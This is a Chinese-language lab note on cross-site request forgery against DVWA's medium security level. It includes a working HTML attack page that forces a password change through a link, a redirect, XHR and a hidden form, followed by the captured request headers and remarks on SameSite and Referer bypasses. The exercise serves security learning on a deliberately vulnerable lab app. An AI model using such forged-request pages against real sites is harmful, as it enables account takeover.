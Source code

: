 # CSRF 跨站请求伪造

### 中级

查看当前cookie的 策略

<figure><img src=".gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

#### cookie的跨域表现

```html
// html
<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <a href="http://192.168.120.134/DVWA/vulnerabilities/csrf/?password_new=admin&password_conf=admin&Change=Change">砍一刀</a>
    <button onclick="locat()">通过跳转</button>
    <button onclick="ajax()">通过ajax</button>
    <form action="http://192.168.120.134/DVWA/vulnerabilities/csrf/?" method="get">  
        <!-- 新密码参数 -->
        <input type="hidden" name="password_new" value="admin">
        <!-- 确认密码参数（需与新密码一致） -->
        <input type="hidden" name="password_conf" value="admin">
        <!-- 提交标识（固定值 "Change"） -->
        <input type="hidden" name="Change" value="Change">
        <button type="submit">form表单</form></button>
    </form>
    <script>
        const url= "http://192.168.120.134/DVWA/vulnerabilities/csrf/?password_new=admin&password_conf=admin&Change=Change"
       function locat()
        {
            window.location.href=url;
        }

       function ajax()
        {
            const xhr = new XMLHttpRequest();
            xhr.open("GET",url,true);
            xhr.send();
        }
        
    </script>
</body>
</html>
```

{% code title="a标签跳转" lineNumbers="true" %}
```http
// http
Host: 192.168.120.134
Referer: http://127.0.0.1:8090/
Cookie: PHPSESSID=7cqvgsrpu0pgkfar8qccnospcu; security=medium
```
{% endcode %}

{% code title="window.location" lineNumbers="true" %}
```http
// Some code
Host: 192.168.120.134
Referer: http://127.0.0.1:8090/
Cookie: PHPSESSID=7cqvgsrpu0pgkfar8qccnospcu; security=medium
```
{% endcode %}

{% code title="ajax请求" lineNumbers="true" %}
```http
// http
Host: 192.168.120.134
Origin: http://127.0.0.1:8090
Referer: http://127.0.0.1:8090/
```
{% endcode %}

{% code title="form表单提交" lineNumbers="true" %}
```http
// http
Host: 192.168.120.134
Referer: http://127.0.0.1:8090/
Cookie: PHPSESSID=7cqvgsrpu0pgkfar8qccnospcu; security=medium
```
{% endcode %}

{% hint style="info" %}
可以看出,在cookie 没有设置 `samesite` 的规则下(默认为`lax` )&#x20;

ajax 请求没有携带cookie&#x20;
{% endhint %}

但是这个题目,既验证`cookie`, 又验证`Referer`  ,除非有一下的漏洞:

* 依赖xss
* 使用自己的域名,构建一个子域名
